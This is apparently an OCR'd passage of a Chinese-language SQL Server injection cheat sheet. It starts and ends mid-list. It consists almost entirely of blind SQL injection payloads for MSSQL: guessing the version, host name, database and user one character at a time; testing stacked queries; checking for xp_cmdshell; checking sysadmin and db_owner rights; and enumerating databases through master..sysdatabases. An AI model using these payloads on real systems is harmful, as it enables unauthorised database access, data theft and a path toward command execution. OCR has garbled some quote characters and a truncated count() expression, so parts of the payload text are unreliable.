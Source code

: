 and exists (select * from sysobjects)–
and exists (select count(*) from sysobjects)–

2、猜解数据库版本

and substring(@@version,22,4)=’2005′–

3、判断是否站库分离

and @@servername=host_name()–

4、判断支不支持堆叠查询

;declare @d int–

5、判断XP_CMDSHELL是否存在

and 1=(Select count(*) FROM master..sysobjects Where xtype = ‘X’ AND name = ‘xp_cmdshell’)–

6、猜解主机名

and ascii(substring(host_name(),1,1))>49–

7、猜解本地服务名

and ascii(substring(@@servername,1,1))>49–

8、猜解当前数据库

and ascii(substring(db_name(),1,1))>97–

## ------获取用户及权限信息
1、猜解当前数据库用户

and ascii(substring(user,1,1))>97–

2、判断当前数据库用户权限

and 1=(IS_SRVROLEMEMBER(‘sysadmin’))–//返回正常为sa

and 1=(IS_MEMBER(‘db_owner’))–//返回正常为DB_OWNER

and 1=(IS_srvrolemember(‘public’))– //public权限,较低

and 1= (HAS_DBACCESS(‘数据库’))– //判断是否有数据库的访问权限

以下命令仅适应于SQL Server2005及以上版本

and 1= has_perms_by_name(db_name(), ‘DATABASE’, ‘ANY’)– //判断是否对当前库有所有权限

and 1= has_perms_by_name(‘master’, ‘DATABASE’, ‘ANY’)–//sa权限

## ------获取数据库信息
(N表示 0 1 2 3 4 ....)
1、猜解数据库数目

and ((select count(name) from master..sysdatabases))>1–

2、逐个猜解数据库长度和名称

DBID：
and (select count() from master.dbo.sysdatabases where dbid=N)=1
